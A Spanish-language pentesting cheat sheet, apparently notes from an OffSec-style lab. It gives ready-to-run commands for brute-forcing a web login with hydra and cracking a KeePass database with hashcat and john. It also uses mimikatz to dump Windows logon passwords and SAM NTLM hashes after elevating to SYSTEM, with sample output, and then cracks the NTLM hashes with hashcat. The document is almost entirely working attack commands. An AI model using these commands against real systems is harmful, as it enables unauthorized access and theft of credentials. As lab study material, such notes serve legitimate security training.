 ## HTTP
```sh
sudo hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```
## Keepass
```sh
keepass2john Database.kdbx > keepass.hash 
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
john --wordlist=/usr/share/john/password.lst --rules jeeves.hash 
```
## Contraseñas de windows

Primero localizar cuales usuarios hay y correr mimikatz, recordar que se ocupa admin
```cmd
Get-LocalUser
.\mimikatz.exe
```
Trata de recuperar contraseñas
```cmd
sekurlsa::logonpasswords
```
Trata de recuperar NTLM hashes
```cmd
lsadump::sam
```
Algunos comandos como estos ocupan priivlegios elevados, es por eso que debemos utilizar 
```cmd
token::elevate

mimikatz # privilege::debug
Privilege '20' OK
mimikatz # token::elevate
Token Id : 0
User name :
SID name : NT AUTHORITY\SYSTEM
656 {0;000003e7} 1 D 34811 NT AUTHORITY\SYSTEM S-1-5-18 
(04g,21p) Primary
-> Impersonated !
* Process Token : {0;000413a0} 1 F 6146616 MARKETINGWK01\offsec S-1-5-21-
4264639230-2296035194-3358247000-1001 (14g,24p) Primary
* Thread Token : {0;000003e7} 1 D 6217216 NT AUTHORITY\SYSTEM S-1-5-18 
(04g,21p) Impersonation (Delegation)
mimikatz # lsadump::sam
Domain : MARKETINGWK01
SysKey : 2a0e15573f9ce6cdd6a1c62d222035d5
Local SID : S-1-5-21-4264639230-2296035194-3358247000
RID : 000003e9 (1001)
User : offsec
 Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
RID : 000003ea (1002)
User : nelly
 Hash NTLM: 3ae8e5f0ffabb3a627672e1600f1ba10
```
## NTLM
```sh
hashcat --help | grep -i "ntlm" 
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```